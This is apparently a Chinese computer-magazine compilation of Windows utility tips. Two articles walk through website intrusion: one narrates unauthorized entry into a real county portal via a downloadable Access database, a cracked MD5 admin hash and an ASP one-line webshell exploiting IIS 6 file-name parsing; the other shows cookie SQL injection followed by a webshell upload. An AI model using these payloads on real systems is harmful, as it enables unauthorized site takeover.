许多朋友羡慕苹果电脑的炫目的操作界面，Linux系统的安全高效但又不愿放弃Windows阵营的软件操作习惯。鉴于从Windows7开始微软为其软件产品加入大量类似Mac的炫目元素、借鉴了部分Linux系统的安全特性，据说Windows8开始，系统中将增加对镜像文件启动的原生支持并开始兼容Xbox游戏。难道除了用模拟器、重新分区外就没有其他的好方法，让我们既保留Windows的易用性，又让我们可以享受一下“窗外”的世界？问题在Grub2以及其图形配置软件WinLy推出后迎刃而解。

使用过华硕笔记本的同学一定知道除了正常的开机Windows外，华硕笔记本还自带了一个快速开机系统而且其启动时间只需5~8秒。这款轻量级系统就是SplashtopOS。

SplashtopOS类似Google发行的Chrome，就是简化发行版的Linux，除了保留显示核心、网络核心外大部分的功能都被精简了，只能上网。因为功能简单涉及到的操作少，推荐喜欢动手的朋友试试。

### WinLy 高级定制入门方案

其实软件安装过程与其他发行版Linux类似，都是在Windows启动管理选项中添加引导Linux核心的程序。本例中添加的引导程序是位于根目录的dbldr文件（类似Grub中的GRLDR文件）。当有dbldr文件接管系统启动程序后，会读取位于根目录的dbldr.mbr(硬盘分区表文件)、dvmb.lst(启动配置文件，类似Grub中的menu.lst文件)，有兴趣的朋友可以打开这些文件研究一下。顺便提一下Geebox，同样是一款小品级简化发行版Linux，但是其更侧重于媒体播放，安装过程也很简单，非常适合初学者。

WinLy实际为Windows base Live Linux Installer的缩写。这里我们选用Grub2，之所以选择Grub2原因很简单，Grub2引导界面更绚丽，最关键的是可以完美支持LiveCD（也就是说可以引导ISO文件）和SATA硬盘。有了WinLy神器加上国内两大自由操作系统开发论坛（深度论坛、雨林木风）的支持，我们可以在免分区、免重装的前提下轻松打造一个多系统平台计算机。

WinLy软件下载地址：http://code.google.com/p/burg4dos/downloads/list?q=label:winly

安装过程非常简单，基本就是一路“next”就可以了，软件安装后会在系统启动菜单中添加“WinLy引导工具”选项，其实在Windows XP以下版本的操作系统中软件就是在Boot.ini文件中添加了“c:\buldr.mbr='WinLy引导工具'”，这样一行启动项，如果是Windows Vista以上版本软件会在系统启动菜单中添加“c:\buldr.mbr='WinLy引导工具'”。软件安装结束后，点击“引导菜单编辑器→编辑Winly启动菜单”就可以开始我们的奇幻之旅了。

> 目前WinLy 4.2（Windows base Live Linux Installer）可以支持引导Windows 7、Windows XP、雨林木风OS的镜像文件、Ubuntu的镜像文件、深度Linux Deepin镜像文件、Puppy、Sltaz、Beini、WinPE、Debian、Opensuse、Fedora甚至Android。

> （文/叶勇）

## 电脑长“利齿” “生吞”U盘病毒

现在的U盘病毒真是让人防不胜防，这不，同事小刘今天上班，将前几天借的U盘还给笔者，笔者因为要查看U盘上的一些文件，当双击U盘盘符后，U盘却并没有打开，电脑似乎停顿了一下，好像在执行什么程序。笔者暗想不好，肯定是中了什么U盘病毒了。这个小刘，一定是在带毒的电脑上使用了U盘，U盘才不幸“染病”了。奇怪，笔者安装的某款免费杀软并没有报警，看来不是该U盘病毒太强悍，就是免费杀软不给力。怎么才能彻底抵御U盘病毒于门外呢？有了Autorun Eater这款免费的安全软件，U盘病毒不仅无法张狂，反成了电脑的“盘中餐”。

### Autorun Eater 工作原理

我们知道，U盘病毒之所以厉害，关键在于其依靠了“Autorun.inf”文件的缘故。病毒只需在U盘根目录下创建自己的“Autorun.inf”文件，在其中添加病毒程序信息。这样只要用户双击U盘盘符，染毒的“Autorun.inf”文件就会自动运行，病毒就会乘机兴风作浪。顾名思义，Autorun Eater就是一款专门吃“Autorun.inf”文件的软件，其可以对所有的磁盘（盘符从C到Z）进行实时监控，当发现您访问的磁盘根目录下存在“Autorun.inf”后，Autorun Eater可以抢在其运行之前将其“吃掉”，这样不管U盘病毒有多厉害，因为失去了“Autorun.inf”文件的庇护，根本无法对您的系统造成任何危害。

### 如何吃掉U盘病毒

在系统托盘中的Autorun Eater的右键菜单中点击“Removal Method” → “Auto-Remove”项，激活自动删除“Autorun.inf”文件功能，这样当您试图打开包含“Autorun.inf”文件的磁盘时，Autorun Eater会立即发出声音报警，同时将“Autorun.inf”自动删除，之后弹出警告窗口，在其中的“Suspicious File1”栏中显示可疑程序名称，如果该“Autorun.inf”包含多个可疑程序，在“Suspicious File2”栏会显示其它的可疑程序名称。在“Suspicious autorun.inf content”栏中显示目标“Autorun.inf”文件的完整内容。点击OK按钮，关闭该警告窗口。注意，为了防止病毒非法关闭Autorun Eater警告窗口，Autorun Eater使用随机数替换窗口名称，这样每次警告窗口的名称都是不同的。当然，您也可以在Autorun Eater右键菜单中点击“Removal Method” → “Ask For Confirmation”项，激活自定义处理功能，这样当Autorun Eater发现可疑“Autorun.inf”文件后，会弹出自定义处理窗口，其内容与上述大体相同，所不同的是，您可以根据所捕获的“Autorun.inf”的内容，来判断其真假。对于病毒文件，最好点击“Remove autorun.inf”按钮，将其彻底删除。对于正常的“Autorun.inf”文件，点击“Ignore autorun.inf”按钮，允许其正常运行。

### Autorun Eater 的附加功能

实际上，Autorun Eater 运行后，可以自动关闭U盘自动运行功能，Autorun Eater会自动备份被删除的“Autorun.inf”文件，在Autorun Eater菜单上点击“Autorun Backup” → “View Backup”项，可以查看所有被删除的“Autorun.inf”文件。如果系统已经遭到了U盘病毒的破坏，造成无法打开任务管理器、注册表编辑器、文件夹选项窗口的话，可以在Autorun Eater菜单中点击“Registry Fix”项，在分支菜单中点击所有的项目，可以快速修复以上项目，如果您想暂停或者激活Autorun Eater监控功能的话，在其菜单上反复点击“Pause/Unpause”项即可。

### 抵御 Autorun 有妙招

- 1. 在插入U盘时按住键盘 shift 键直到系统提示“设备可以使用”再打开U盘。
- 2. 打开U盘时不要双击打开，也不要用右键菜单的打开选项打开，而要使用资源管理器快捷键 winkey+E打开资源管理器，通过左侧栏的树形目录打开可移动设备。
- 3. 如果盘内有来路不明的文件，尤其是文件名比较诱惑人的文件，必须多加小心；需要特别提示的是，不要看到图标是文件夹就理所当然是文件夹，不要看到图标是记事本就理所当然是记事本，伪装图标是病毒惯用伎俩。
- 4. 要有显示文件扩展名的习惯，有图标的诱人的病毒文件基本都是可执行文件，显示文件扩展名之后，通过文件名后的“.exe”即可判断出一个文件可执行文件，从而不会把伪装的病毒可执行文件误认为是正常文件或文件夹。

(文/郭建伟)

## 多窗口资源管理器 文件管理更便捷

同事小马由于太忙，电脑上的文件经常随手乱放着，当有空再来整理时，需要在各个不同分区和文件夹下面移动文件或者文件夹，如果用Windows系统的资源管理器，每次只能打开一个目录，来回在不同分区和目录中切换，非常麻烦，只好把Q-Dir这个秘密武器告诉他，这是一款加强版的资源管理器，它在同一个界面里最多可以打开四个窗口，每个窗口都可以方便的切换目录，各窗口之间可以方便的移动文件和文件夹，特别适用于频繁在各个分区和目录间复制粘贴，能大大提高工作效率。

先下载安装Q-Dir4.69，主界面默认有4个资源管理窗口，里面的每个窗口都相当于一个独立的Windows系统资源管理器，可以独立打开不同分区的不同文件夹，拖动窗口的边框还能调节窗口的大小，先在第一个窗口中打开要转移的文件，然后在第二个窗口中打开要转移到的文件夹，这样就可以直接在各个窗口之间的文件可以进行文件和文件夹的移动、复制、粘贴等操作了，如拖动文件或者文件夹到另外一个窗口，即可把文件或者文件夹复制到另外的目录中，和Windows系统自带的资源管理器一样，其他功能也一应俱全，如“重命名”、“新建文件夹”、“删除”等，如果同时涉及的目录较多，还可以在第三和第四个窗口中打开相应的目录同时进行操作，大大提高了频繁在各个目录间复制粘贴文件的效率。

**小提示:**

另外如果觉得4个窗口太少的话，还可以使用分页标签功能，单击选择一个窗口，然后按Ctrl+T则打开一个新分页，分页中可以打开另外的目录、每个窗口都可以打开多个分页标签。

如果文件夹级数较多时，还可以使用Q-Dir提供的三种目录树资源管理模式，单击目录树按钮旁边菜单，弹出one 4 all、each has one和no use三种选择方式，其中one 4 all是指资源管理器内的所有窗口共用同一个资源目录树，单击鼠标选中不同的资源管理窗口，再单击左边栏中的资源目录树，即可在该窗口打开对应的目录；而each has one是指每个资源管理窗口都拥有一个自己的独立目录树，而no use则是没有目录树的模式。

如果某个窗口中目录下的文件太多，不方便我们进行文件查找的话，还可以使用Q-Dir的过滤文件功能，单击该窗口右下角的文件过滤按钮，然后在文本框中输入文件的扩展名，如“*.exe”，这样窗口中就会只显示该扩展名类型的文件了。

(文/贺全荣)

## 系统重装不担心 无线设置能备份

好友明明的笔记本重装系统后，原来系统中的各种无线 WiFi要重新设置，有密码的又要重新输入密码，有时候密码没有记住，还得去问网络管理员，非常麻烦。其实很多人都有过这样的经历，这里笔者给大家支一招，用WiFi Network Backup Manager可以彻底解决这个问题，它能备份系统中设置过的所有WiFi网络的SSID和密码到一个文件里，重新安装系统后，可快速恢复。

先下载WiFi Network Backup Manager，然后安装即可，运行后在左侧会自动检测系统中所有连接过的无线 WiFi的SSID名称，然后单击选择要备份设置和密码的SSID名称，再单击右下角的“Save”按钮，弹出另存为对话框，选择保存路径，输入保存的文件名，单击“保存”即可把该无线WIFI的设置和密码保存为一个扩展名为.WifiBackup的文件，然后把该文件存放到非系统盘即可。

如果要备份全部的无线WiFi设置和密码，则单击“Save All”按钮即可。当系统重装后，只要运行WiFi Network Backup Manager，然后单击“Load”按钮，在弹出的“打开”对话框中选择以前备份的.WifiBackup文件，单击“打开”即可迅速恢复以前的无线 WiFi的设置和密码，非常方便，为您省去了不少麻烦。

## 误关联的应用程序设置巧取消

笔者使用的是Windows 7操作系统，由于误操作，在打开某种未知格式的文件时，设置了“始终使用选择的程序打开这种文件”，现在希望取消关联，但不是更换为其他的程序，而是恢复为原来的空白状态。

遗憾的是，资源管理器窗口中取消“始终使用选择的程序打开这种文件”仍然无效，即使通过控制面板的“程序→默认程序→设置关联”也并没有能够解决这一问题……

其实，我们只要进入注册表编辑器删除相关的项目即可，这里以.xv文件为例进行说明：以管理员权限打开注册表编辑器，分别删除

HKEY_CLASSES_ROOT\.xv
HKEY_CLASSES_ROOT\.xv
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.xv

(文/王志军)

## Windows 7媒体流轻松访问远程媒体

“好友小张开了家动画设计制作公司，经常需要远程给客户展示做好的动画DEMO，远程传输文件浪费时间，比较麻烦，只好向笔者请求。其实办法是有的，只要电脑都是Windows 7系统，可以用Windows7的媒体流功能，在异地也可以直接访问公司电脑里的动画等媒体文件。Windows7的远程媒体流功能可以在用户的各台电脑之间建立专用的安全Internet连接，使用Windows Media Player来访问各台电脑之间的动画、视频、图片、音乐和录制的电视节目，这样客户就能随时随地知道动画的设计情况了。首先来设置公司的台式机Windows 7，打开Windows7里的Windows Media Player，单击播放器左上角的“媒体流”菜单，然后选择“允许网络访问家庭媒体”，在弹出的对话框中，选择“链接联机ID”。需要注意的是，这里的联机ID指的是Windows Live账户（MSN账户）。如果你没有安装“联机ID提供程序”，则需要先单击“添加联机ID提供程序”打开微软官方网页，单击“下载”下载该程序，然后安装才能进行登录操作。安装完毕后单击“链接联机ID”，在弹出的对话框处输入自己的Windows Live账户（MSN账户），单击“登录”按钮登录。如果没有MSN账户则需要单击“注册”按钮注册一个新账户。链接了联机ID之后，单击“允许网络访问家庭媒体”，弹出“您已成功允许网络访问家庭媒体”，在这台电脑里的操作就算完成了。最后记得将你需要共享的动画文件添加到Windows Media Player的媒体库中，也可以添加音乐、视频、图片等文件。方法是单击Windows Media Player上的“组织”菜单，选择“管理媒体库”，然后分别选择“动画”、“音乐”、“视频”、“图片”，把电脑中动画、音乐、视频、图片等文件的存放路径添加到库中即可。

接下来让客户在他的电脑上重复上面的设置过程。特别注意的是把联机ID账号和密码告诉客户，只有使用相同的联机ID账号才能远程连接，然后客户只要能上网，就可以通过打开Windows 7系统电脑里的Windows Media Player，单击“其它媒体库”，就可以看到这个媒体库中的所有联机电脑。选择公司的计算机名称，然后单击下边的“动画、音乐、视频、图片”等分类，就可以查找到公司电脑中添加好的动画文件了，就像打开本地文件观看一样。当然如果网络速度不是很快的话，会影响播放的画质和流畅度，尤其是比较大的文件。

(文/贺全荣)

## 锦上添花 为Aero特效添加彩虹动画

同界面“寒酸”的Windows XP相比，Windows 7提供的Aero透明特效的确很拉风。不过在默认情况下，Aero特效的色彩效果是静止不变的，使用的时间长了，难免让人感到乏味。能否让其像雨后的彩虹一样，产生色彩斑斓的变色特效呢？使用AeroRainbow这款免费的小工具，就可以轻松实现上述功能，让您的Aero特效变得与众不同充满动感。下载地址：http://winaero.com/e107_files/downloads/AeroRainbow.zip。

在AeroRainbow设置窗口中的“Speed”栏中拖动滑块，可以调整Aero特效变色的时间间隔（范围从0.1秒到60秒，默认为0.1秒），该时间越短，Aero特效的彩虹效果变化的越快。在“Color”栏中如果选择“Always random color”项，表示采用随机色彩来更换Aero特效的颜色外观；如果选择“Use the colors list”项，表示采用自定义色彩变化效果。点击“+”按钮，可以在颜色选择窗口中选择自己喜欢的颜色，之后将其添加到色彩列表中。

按照同样的方法，可以添加任意多种颜色。之后点击“Set”按钮，可以立即激活Aero特效的动态色彩显示效果。可以看到，不管是任务栏，还是窗口，对话框等对象的外观，其色彩在不断地发生交替变化，看起来如同彩虹桥一般别致。在系统托盘中右击AeroRainboe图标，在弹出菜单中点击“Next color”项，可以立即切换到下一种颜色，加快Aero色彩特效的变动速度。

(文/郭建伟)

## 解密压缩包 我有非常技巧

小周是公司的资料员，对于一些涉及机密的文档，老总是要吩咐小周严加保管，小周自然不敢怠慢。虽说现在加密软件林林总总，不过小周有自己的加密高招，他的秘密武器就是WinRAR压缩软件，您可不要小看了WinRAR，除了解压缩文件外，加密功能也是其强项之一。要想加密牢固，密码当然要强悍才行。俗话说，不能把所有的鸡蛋都放在一个篮子里。小周可谓深谙此道，他采用不同的密码来加密压缩不同的文件，不过问题随之而来，记忆各种复杂的密码可是令人头痛的事情。不过这难不倒小周，每次解密压缩包，小周根本不用输入任何密码，却能保证解包准确快捷，小周究竟是如何做到的呢？且看下面慢慢道来。原来，小周使用了RarZilla Free Unrar（简称RFU）这款免费的软件，可以自动解密使用不同密码的加密压缩包。关于如何使用WinRAR加密文件，这里就不再废话了，这是老鸟菜鸟都熟悉的技术。为了便于使用，小周在自己的U盘上创建了一个名称为“passlist.txt”的文件，将使用过的密码全部存储到该文件中。当需要解密密码各异的压缩包时，小周插上自己的U盘，在RFU主窗口的“Options”面板中勾选“Try to open encrypted files with default password”项，点击“Choose list”按钮，选择U盘上的“passlist.txt”文件。小周将所需的加密压缩包全部拖动到RFU主窗口上，RFU就可以从指定的“passlist.txt”文件中读取所有的密码，逐一一对每个加密压缩包进行匹配测试，如果匹配成功即可使用对应的密码解压与之匹配的压缩包。在随后打开的解压窗口中选择保存路径，默认保存在与原文件同路径下以该压缩包文件名命名的文件夹中。当然，您也可以自定义解压路径。点击OK按钮，URF就可以自动解压对应的加密压缩包了。这样，您不仅免去了记忆各种密码的烦恼，也省去了手工输入密码的繁琐，当然，前提是必须看管好您的密码文件。下载地址：http://www.philipp-winterberg.com/download/InstallRarZilla.exe。

> 小提示：
> 在加密压缩包时，可以使用尽可能复杂的密码，来提高加密的安全性。最好采用专用的密码创建工具，来随机生成难以破解的密码，之后将密码保存到密码文件中即可。

(文/郭建伟)

## 创建使用方案 设置一键切换

家中只有一台电脑，大家只好排队分时使用。可每次换人后，仅改变分辨率、音量、启动软件等设置过程就花费不少时间。比方说老爷爷使用时，要换成低分辨率大字体桌面，还要打开“千千静听”和IE，边上网边听歌。换成小妹时，则要关闭之前的软件，改回高分辨率，再打开她的K歌软件唱歌。切换如此繁琐，众人强烈不满。

### 命名方案

后来笔者发现一款名为Quick Config（下载地址：http://www.onlinedown.net/softdown/104507_2.htm）的软件，它能为电脑的程序、网络、系统、桌面等设置创建多种方案，还能实现一键切换方案，看来不错。下面就为老爷爷创建一套电脑设置方案吧。内容是把桌面设置成低分辨率，并且自动启动IE浏览器和“千千静听”程序。打开程序主界面，在左侧单击“Create new”按钮，再单击“是”，就会打开方案设置界面。在Profile name右侧输入方案名称，比如：LAOBA。接着在下方输入方案描述，指定组别、设置热键、图标。

### 指定自运行程序

老爷爷喜欢边听音乐边上网，这就需要在方案中设置成IE和“千千静听”同时启动，避免手工运行的麻烦。在界面左侧Applications栏勾选Start applications选项，在右侧单击Add按钮，打开Start application对话框，单击“…”按钮，选择“千千静听”的可执行文件打开，在Action栏中，确保选择的选项为Start，其它选项保持默认。单击OK按钮，“千千静听”便被添加到启动程序列表中。IE的添加方法与此相同。在实际操作时，建议大家把所有方案中涉及的程序都添加到启动列表，然后根据方案的切换顺序，确定程序使用的动作。比如在LAOBA方案中要启动“千千静听”，而之后XIAOMEI的方案不需要“千千静听”，那就在小妹方案中，把“千千静听”的动作由Start更改为Terminate，这样切换到小妹的方案时，“千千静听”便自动终止。

### 实现一键切换

此时虽然方案创建完成，但此时只能在打开程序界面后，双击方案图标才能切换方案。离一键切换的要求还差一步。右击方案图标，在弹出的菜单中选择Create shortcut命令，在打开的对话框中，为快捷方式命名并指定保存路径。单击“保存”按钮完成快捷方式创建。有兴趣的朋友，还可以为该快捷方式再创建快捷方式，指定热键，便可以不启动软件的情况下，实现一键切换。无论电脑以前是什么样子，等老爷爷用电脑时，只要双击桌面上的设置方案图标或按下相应的快捷键，电脑就会自动切换到低分辨率桌面，同时自动启动“千千静听”程序和IE浏览器，无需再单独设置。而轮到小妹使用时，也只需双击自己的方案图标或利用快捷键，就能快速进入自己的K歌世界，而之前方案中启动的程序也将自动关闭。创建的方案也可以导出保存，以便将来恢复。导出时，在程序界面右击要任一方案名称，在弹出的菜单中选择Export Profile选项，在对话框中勾选所有需要导出的方案名称，单击Export按钮，便可将方案保存起来。需要导入方案时，则在界面右侧的空白处右击鼠标，选择Import Profile选项，选中导出的文件打开，便会看到导出的方案名称，随后勾选这些方案，单击Import按钮即可将其导入到界面中。

(文/赵毅仙)

## 小漏洞大危害——数据库下载漏洞

最近关于网站新闻的故事很多。昨天刚看到某领导为视察“悬浮照”辩解。今天又能看到某“临时工”在网站发布了错误新闻。难道情况真的如此？我们经常能看到有人通过网站漏洞破解了登录密码，登录后制造恶作剧。那他们是怎样做到的？网站漏洞又是怎样被发现的呢？

对于采用Access数据库的网站来说，如果存在数据库下载漏洞，会给网站的安全性造成极大的危害。可以说是小漏洞大危害。下面就用我亲身经历的一个案例来展示数据库下载漏洞的危害。

一次在访问一个县的广电系统的门户网站时，出于习惯，顺手在网站地址后面加了个admin/，出现了"This Virtual Directory does not allow contents to be listed."的错误提示。

### 通过数据库获取密码

看来存在admin目录。admin目录一般是网站的后台目录。看到存在admin目录，就决定看看网站的安全性如何。虽然知道了可能的后台目录，却还不知道后台登录页面的文件名。来试试常见的后台登录文件的名字。首先尝试admin_login.asp，提示“系统找不到指定的文件”。看来后台文件不是admin_login.asp。再尝试login.asp，这次出来了后台登录页面。

通过后台登录页面上的文字知道网站采用的程序是FoosunCMS 4.0。尝试了几个比如用户名admin密码admin等弱口令都不对。这时候想到了网站用的是FoosunCMS 4.0。到网上下载FoosunCMS 4.0的源代码，然后在源代码中看能不能找到可以利用的地方。在中国站长站下载到了FoosunCMS网站内容管理系统 v4.0 sp7的源代码，解压下载回来的文件后发现FoosunCMS网站内容管理系统 v4.0 sp7采用的是Access数据库，默认存放数据库文件的目录为Foosun_Data，存放管理员信息的数据库的默认名字为FS400.mdb。

看这个网站的数据库文件是不是还是默认的目录默认的文件名。在网站地址后面加上Foosun_Data/FS400.mdb，出现了下载文件的对话框！

很幸运，目标网站没有更改存放数据库文件的默认目录也没有更改数据库文件的名字。导致我下载到了网站的数据库文件。用Microsoft Office Access 2003打开下载回来的数据库文件。在表FS_MF_Admin中发现了管理员的用户名admin和密码db7636b853b11fce。

### 破解密码 登录后台

密码到在线破解网站http://www.cmd5.com/default.aspx进行破解。显示“已查到，这是一条付费记录。密文类型:md5。”查到了，但需要付费用户登录后才能查看结果。找了个有付费用户的朋友帮忙，得到密码zajianSalang。

用得到的管理员的用户名和密码进入了后台。

在后台首页看到WEB服务器软件用的是Microsoft-IIS/6.0。在后台看能不能得到webshell。在“新闻管理”下点击“添加新闻”来到了添加新闻的页面。点“插入/编辑图像”按钮，然后在出来的“图形属性”对话框中点“浏览服务器”按钮就来到了上传图片的地方。把ASP木马服务端代码<%eval request("a")%>保存为文件x.asp;x.jpg，点“上传”按钮。在“文件1”中通过“浏览”按钮选择x.asp;x.jpg。一定要保证自动命名的选项为“不自动命名”。点“确定”按钮后文件x.asp;x.jpg上传到了服务器上，而且上传上去后的文件名还为x.asp;x.jpg。

文件x.asp;x.jpg上传到了Files目录下，访问地址为http://www.xxx.net/Files/x.asp;x.jpg。shell的地址就是http://www.xxx.net/Files/x.asp;x.jpg。

可能有人会问.jpg文件怎么会是shell文件呢？Microsoft-IIS/6.0有一个解析漏洞，会把x.asp;x.jpg当成ASP文件来解析。网站WEB服务器软件用的是Microsoft-IIS/6.0，正好可以利用解析漏洞。用lake2的eval最小马发送端连接shell的地址http://www.xxx.net/Files/x.asp;x.jpg，写上密码a。发现shell的功能正常。

### 获得网站控制权

得到这个shell就获得了对网站文件的完全控制权。利用shell可以上传文件到网站。可以编辑网站下的所有文件。当然也可以删除网站目录下的任何文件。

至此一个小型门户网站的安全性荡然无存。如果我在网页文件中插入挂马代码进行挂马，后果更是不堪设想。好在我只是看下网站的安全性，很快删除了shell文件，没有对网站目录下的任何文件进行修改或删除。

这个数据库下载漏洞只要还存在，就有可能被别人也利用这个漏洞得到网站的shell。至于后来者会不会做出危害网站的事情，谁也不敢保证。只要这个漏洞还存在，网站的安全就面临着一个随时可能爆炸的炸弹。

数据库下载漏洞是一个低级的小漏洞，但它的危害性却是巨大的。

一旦这个漏洞被人利用，轻则一个网站彻底沦陷，重则网站所在的服务器沦陷，更甚者，一个服务器集群都可能因这个小漏洞而沦陷。

其实，数据库下载漏洞很好修补。把默认的数据库文件的名字改成一个比较复杂的名字就可以了。修改网页的版权信息，不让入侵者知道你网站用的是什么程序进而不知道到哪里找默认数据库文件的名字也是一个不错的防范数据库下载漏洞的方法。不过最彻底的方法还是修改数据库文件默认的名字。

希望各位站长朋友尤其是网站程序有.mdb数据库的朋友注意防范数据库下载漏洞。

(文/txcbg)

## 网站防注入别忘了cookie注入

经过几年的注入攻击的洗礼，现在即使一般小企业的网站也做了防注入。但有一种注入叫cookie注入。由于它利用了网站程序一般很少使用但确实可用的获取参数的方法，很多网站程序的作者往往忽略了防范cookie注入。给网站的安全带来极大危害。下面我还是通过一个例子说明cookie注入的危害。

我收藏了一款存在cookie注入漏洞的ASP网站程序——启明星电脑网络公司v2.8版，它存在的注入漏洞比较经典。就用它来演示cookie注入漏洞了。

### 发现漏洞

我把启明星电脑网络公司v2.8版在虚拟机里用IIS运行了起来。网站访问地址为http://127.0.0.1/。

在“常见故障”栏目中点开一篇名为“夏普复印机特殊故障代码的复位方法”的文章。在浏览器中显示的地址为http://127.0.0.1/news_more.asp?id=1093。

在这个地址后面输入-0，也就是浏览器中的地址变为了http://127.0.0.1/news_more.asp?id=1093-0。回车，显示的还是“夏普复印机特殊故障代码的复位方法”这篇文章。在地址http://127.0.0.1/news_more.asp?id=1093后面输入-1，也就是浏览器中的地址变为了http://127.0.0.1/news_more.asp?id=1093-1。回车，显示的文章变为了“夏普AR1818、AR163、AR163N、AR2818垂直白线”。

和直接访问http://127.0.0.1/news_more.asp?id=1092显示的页面相同。也就是id后面的参数1093-1这个减法运算了。推测news_more.asp在获取id参数的值时过滤不严，很可能存在注入漏洞。

是否存在普通的注入漏洞呢？在地址http://127.0.0.1/news_more.asp?id=1093后面输入空格and空格1=1（把空格换成按一下空格键）。地址变为了http://127.0.0.1/news_more.asp?id=1093 and 1=1，回车后出来了防注入提示“系统提示：您进行了非法操作，请不要在参数中包含非法字符尝试注入！”

看来网站有防注入措施。那是不是网站就不存在注入漏洞了呢？ASP程序有Get和Post两种常用获得输入的方法。还有一种不常用的通过cookie获得输入的方法。http://127.0.0.1/news_more.asp?id=1093 and 1=1就是通过Get方式获得参数的值。1093 and 1=1，注入代码被拦截只能说明通过Get方式提交的注入代码被拦截。那么我们通过不常用的cookie提交注入代码是否会被拦截呢？来实际测试一下。在浏览器的地址栏中输入javascript:alert(document.cookie="id="+escape("1093 and 1=1"));，回车，会出来一个对话框。点“确定”按钮关闭它。然后在浏览器中输入http://127.0.0.1/news_more.asp，回车后显示的内容和输入http://127.0.0.1/news_more.asp?id=1093的内容一样，说明news_more.asp获得了我们通过cookie传递的参数1093 and 1=1，正常显示了“夏普复印机特殊故障代码的复位方法”这篇文章。并且我们的注入测试代码and 1=1也没有被拦截。说明程序没有对我们通过cookie提交的数据做防注入处理，程序存在cookie注入漏洞。

### cookie注入

知道了网站存在cookie注入漏洞就可以来注入了。其实，cookie注入漏洞和一般的注入漏洞能做的事一样。比如可以获得网站管理员的用户名和密码等，就是利用过程稍微比一般的注入麻烦一些。可以像上面一样在浏览器的地址栏中输入javascript代码完成注入攻击。但输入代码太麻烦。我们来用个简单的办法。通过寂寞的刺猬的注入中转生成器jmdcw可以把cookie注入漏洞转化成普通的注入漏洞来利用，然后就可以用注入漏洞利用工具进行注入了（截止到现在，据我所知还没有一款注入工具可以直接对cookie注入点进行注入）。

打开jmdcw.exe，因为是cookie注入，因此选择“COOKIE注”，“来源页”输入存在cookie注入漏洞的地址http://127.0.0.1/news_more.asp?id=1093。注入URL地址输入http://127.0.0.1/news_more.asp，也就是去掉了参数的地址。“注入键名”输入id=，也就是存在cookie注入漏洞的地址http://127.0.0.1/news_more.asp?id=1093中参数的名字id后面再加个=。“POST提交值”修改为jmdcw=1093。“正常的Cookie值”不用修改，用默认的就行。

点“生成ASP”按钮就会在jmdcw.exe同目录下生成文件jmCook.asp。把jmCook.asp上传到支持ASP的网站空间中。这里我把它复制到了我虚拟机里的网站根目录下，访问地址为http://127.0.0.1/jmCook.asp。

用浏览器打开http://127.0.0.1/jmCook.asp?id=1093，和http://127.0.0.1/news_more.asp?id=1093的内容相同。通过注入中转生成器把地址http://127.0.0.1/news_more.asp?id=1093转换成了http://127.0.0.1/jmCook.asp?id=1093。http://127.0.0.1/jmCook.asp?id=1093就是普通的注入点了。用常用的注入工具比如啊D就可以跑出网站管理员的用户名和密码了。

用获得的管理员的用户名和密码进入了后台。在后台点“添加文章”，上传图片的地方可以直接上传asp文件，上传个ASP大马上去。

至此，通过cookie注入漏洞获得了网站的完全控制权。利用ASP大马可以编辑网站目录下的任意文件。虽然普通的注入漏洞越来越少了，但比较隐蔽的cookie注入漏洞却还普遍存在。尤其是很多小的利用ASP程序的网站，有很大一部分存在cookie注入漏洞。要防范cookie注入漏洞也比较简单，比如可以采用做了防cookie注入的程序来建站等。

(文/txcbg)

## 双休假日 我有免费电脑保安

很多公司都是执行双休制度，不过双休期间免不了有部分同事加班。如何在双休期间对公司电脑进行控制一直是个老大难问题，因为双休期间网管也休息，这样就无法对加班的同事使用电脑进行控制，何不利用系统自带功能打造一位免费双休日保安？下面以Win7旗舰版操作为例。

### 具体操作如下：

### 第一步：设置双休专用账户权限

- 1. 设置指定账户只能运行办公套件。新建一个双休专用标准账户假设为CFAN并设置密码，然后进入原来管理员账户对CFAN开启家长控制，开启对CFAN账户的程序限制。这里只要根据实际工作需要设置该账户允许运行必要的工作程序即可。比如允许该账户运行Office2007套件，其他无关程序一律禁止。

- 2. 设置账户无法上网。打开资源管理器后，找到 "C:\Program Files\Internet Explorer\iexplore.exe"，右击选择 "属性"，切换到 "安全" 标签，将CFAN账户对该文件 "完全控制" 权限设置为 "拒绝"。这样CFAN账户就无法使用IE浏览网页（由于家长控制存在，该账户也无法使用火狐、傲游等第三方浏览器）。

- 3. 设置该账户登录时无法使用U盘复制文件。以管理员身份启动命令提示符，输入 "reg add HKLM\SYSTEM\CurrentControlSet\Control\StorageDevicePolicies /v WriteProtect /t REG_DWORD /d 00000001 /f"，这样当前电脑插入的U盘就变成只读，无法往其中复制文件。接着启动注册表编辑器，展开 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\StorageDevicePolicies]，将其导出为 "c:\u1.reg"，将上述命令中的 "/d 00000001" 更改为 "/d 00000000" 再次运行，恢复U盘的可写入，同上再次将同一键值导出为 "c:\u2.reg"。

经过上述的设置后，一旦当前电脑使用CFAN账户登录，他就无法运行除Office2007之外的第三方软件，也无法上网（因为IE无权限运行），同时不能将电脑中任何文件复制到U盘。接下来操作就是设置双休日实现CFAN账户自动登录。

### 第二步：提取指定账户自动登录键值

- 1. 以管理员身份启动命令提示符，输入 "control userpasswords2"，在打开的窗口去除 "要使用本机，用户必须输入用户名和密码" 的勾选，单击 "应用"，然后在弹出的窗口输入CFAN账户和密码，设置CFAN账户自动登录。

- 2. 启动注册表编辑器，展开 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]，这里保存的是自动登录账户，现在将其导出为1.reg，放置在C盘根目录下，然后使用记事本打开1.reg，仅保留其中账户名和自动登录键值。

- 3. 继续展开 [HKEY_LOCAL_MACHINE\SECURITY]，由于在默认情况下，只有SYSTEM账户才能访问该键值。因此需要先右键点击该项目，在弹出菜单中选择 "权限" 命令，打开权限设置对话框，在对话框上方的用户名列表中，选中Administrators组，勾选下方权限列表中的 "完全控制" 项。接着单击注册表编辑器菜单栏的 "查看→刷新"，继续展开 [HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\DefaultPassword]，这里保存的就是自动登录账户的登录密码，同样将其导出为2.reg，放置在C盘根目录下。

